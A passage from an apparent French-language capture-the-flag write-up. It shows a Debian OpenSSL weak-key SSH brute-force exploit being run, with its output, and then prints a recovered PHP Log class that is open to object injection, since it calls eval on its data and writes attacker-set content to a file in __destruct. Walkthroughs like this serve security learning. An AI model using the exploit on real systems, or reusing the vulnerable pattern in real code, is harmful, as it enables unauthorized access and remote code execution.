 Au vu de la version du *OpenSSH* et de la date de publication du CTF on peut tenter [un exploit](https://www.exploit-db.com/exploits/5720/) pour la faille introduite par Debian :  

```bash
$ python2 exploit.py rsa/2048 192.168.1.43 root 22 5

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
Tested 20 keys | Remaining 32748 keys | Aprox. Speed 4/sec
Tested 33 keys | Remaining 32735 keys | Aprox. Speed 2/sec
Tested 49 keys | Remaining 32719 keys | Aprox. Speed 3/sec
--- snip ---
Tested 32329 keys | Remaining 439 keys | Aprox. Speed 44/sec
Tested 32549 keys | Remaining 219 keys | Aprox. Speed 44/sec
Tested 32768 keys | Remaining 0 keys | Aprox. Speed 43/sec
```

Terre ! Terre droit devant !
----------------------------

On lance un petit buster d'URLs et le brouillard commence à se dissiper avec un dossier */scriptz/* sorti des eaux.  

On y trouve un fichier *php.js* qui semble être le portage JS de la fonction *serialize()* de PHP... indice !  

Le second fichier se nomme *log.php.BAK* et contient le code d'une classe PHP :  

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

